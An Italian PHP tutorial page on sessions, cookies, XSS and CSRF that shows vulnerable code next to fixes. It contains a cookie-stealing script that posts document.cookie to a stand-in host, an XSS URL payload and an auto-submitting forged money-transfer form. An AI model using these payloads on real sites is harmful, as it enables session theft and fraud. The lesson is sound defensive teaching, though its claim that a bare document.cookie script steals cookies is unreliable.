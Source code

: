[⬅️ [TORNA ALL'INDICE] ](../README.md)

## Esempi Pratici

### Esempio di Gestione Sessione
In una pagina vengono impostate la variabili di sessione.
```php
// Login semplice
session_start();
$username = "mario";
$password = "password123";

// Verifica credenziali e salva in sessione
if ($username === "mario" && $password === "password123") {
    $_SESSION['logged_in'] = true;
    $_SESSION['username'] = $username;
}
```

In un'altra pagina, usando le varibili di sessione impostate precedentemente, si verifica se l'utente è loggato:

```php
session_start();
if (!isset($_SESSION['logged_in'])) {
    echo "Devi effettuare il login";
} else {
    echo "Benvenuto " . $_SESSION['username'];
}
```

### Esempio di Gestione Cookie
Impostiamo una preferenza utente.
```php
// Salva un cookie semplice
setcookie('lingua', 'italiano', time() + (86400 * 30)); // dura 30 giorni
```

In un'altra pagina, leggi il cookie:

```php
if (isset($_COOKIE['lingua'])) {
    echo "La tua lingua è: " . $_COOKIE['lingua'];
} else {
    echo "Lingua non impostata";
}
```

## Vulnerabilità di Sicurezza

### Cross-Site Scripting (XSS)
XSS è una vulnerabilità che permette agli attaccanti di iniettare codice JavaScript maligno nel tuo sito web. Questo codice viene poi eseguito nel browser degli utenti che visitano il sito.

[Prima parte rimane invariata fino all'esempio di XSS]

#### Esempio di Vulnerabilità XSS

Ecco un esempio di codice vulnerabile, dove il parametro 'name' viene mostrato direttamente senza sanitizzazione:

```php
<?php
echo "Benvenuto, " . $_GET['name'];
?>
```

Un attaccante potrebbe usare un URL come:
`http://tuosito.com/welcome.php?name=<script>document.cookie</script>`

Questo ruberebbe i cookie dell'utente.

Ecco invece il codice sicuro che utilizza htmlspecialchars():

```php
<?php
echo "Benvenuto, " . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```

La funzione `htmlspecialchars()` converte i caratteri speciali HTML in entità HTML. Per esempio:
- `<` diventa `&lt;`
- `>` diventa `&gt;`
- `"` diventa `&quot;`
- `'` diventa `&#039;`

Questo impedisce l'esecuzione di codice JavaScript maligno, perché il browser interpreterà i caratteri speciali come testo da visualizzare e non come codice da eseguire. Nell'esempio precedente, l'output sarebbe:
`Benvenuto, &lt;script&gt;document.cookie&lt;/script&gt;`

#### Come i Cookie sono Vulnerabili a XSS

Un attaccante potrebbe inserire questo script maligno:

```javascript
<script>
  // Invia tutti i cookie a un server maligno
  fetch('https://malicious-site.com/steal-cookies?' + document.cookie);
</script>
```

Per proteggere i cookie, è necessario utilizzare le appropriate flag di sicurezza:

```php
setcookie("session_id", "123456", [
    'httponly' => true,    // Previene l'accesso via JavaScript
    'secure' => true,      // Solo HTTPS
    'samesite' => 'Strict' // Previene CSRF
]);
```

### Cross-Site Request Forgery (CSRF)
CSRF è un attacco che forza un utente autenticato a eseguire azioni indesiderate su un sito web dove è già autenticato.

#### Esempio di Vulnerabilità CSRF

Ecco una pagina vulnerabile di trasferimento denaro:

```php
<?php
if ($_POST['amount'] && $_POST['to']) {
    transferMoney($_POST['to'], $_POST['amount']);
}
?>
```

Un attaccante potrebbe creare una pagina maligna che sfrutta questa vulnerabilità:

```html
<html>
<body onload="document.forms[0].submit()">
    <form action="http://banca.com/transfer.php" method="POST">
        <input type="hidden" name="amount" value="1000">
        <input type="hidden" name="to" value="attaccante">
    </form>
</body>
</html>
```

#### Protezione da CSRF

Per prima cosa, generiamo un token CSRF:

```php
<?php
session_start();
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

Poi, includiamo il token nel form HTML:

```html
<form method="POST" action="/transfer.php">
    <input type="hidden" name="csrf_token" 
           value="<?php echo $_SESSION['csrf_token']; ?>">
    <input type="text" name="amount">
    <input type="text" name="to">
    <button type="submit">Trasferisci</button>
</form>
```

Infine, verifichiamo il token nella richiesta:

```php
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    die('CSRF token non valido');
}
```

[⬅️ [TORNA ALL'INDICE] ](../README.md)